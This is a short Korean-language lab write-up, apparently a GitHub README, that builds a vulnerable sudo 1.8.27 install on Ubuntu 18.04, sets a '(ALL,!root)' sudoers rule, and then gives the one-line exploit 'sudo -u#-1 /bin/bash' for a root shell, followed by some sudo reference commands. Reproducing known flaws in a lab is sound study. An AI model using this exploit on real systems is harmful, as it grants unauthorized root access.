 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type     | OS             | Vulnerable App             |
| :---     | :---           | :--- |
| Victim   | Ubuntu 18.04.3 | [sudo 1.8.27]() |

# **Setting**

sudo파일 압축 해제

```sh
root@srv:~# tar -xf sudo-1.8.27.tar.gz
```

sudo 설치

```sh
root@srv:~# ./configure --prefix=/usr --libexecdir=/usr/lib --with-secure-path --with-all-insults --with-env-editor --docdir=/usr/share/doc/sudo-1.8.27 --with-passprompt="[sudo] password for %p: "
root@srv:~# make
root@srv:~# make install
```

/etc/sudoers  권한 설정

```sh
root@srv:~# chmod u+w /etc/sudoers
```

/etc/sudoers에 다음과 같이 설정

```sh
[추가]
"사용자 계정" ALL=(ALL,!root) NOPASSWD: ALL

[수정]
%admin과 %sudo 부분 주석처리
```

/etc/sudoers  권한 설정

```sh
root@srv:~# chmod u-w /etc/sudoers
```
> [CODE BLOCK](https://rdmd.readme.io/docs/code-blocks)


# **Exploit**

root 권한 획득

```sh
user@srv:~$ sudo -u#-1 /bin/bash
```

# **etc**

sudo 버전 확인

```sh
user@srv:~# sudo -V
```

sudo 권한 확인

```sh
user@srv:~# sudo -l
```

표준입력으로 패스워드 입력

```sh
user@srv:~# sudo -S
```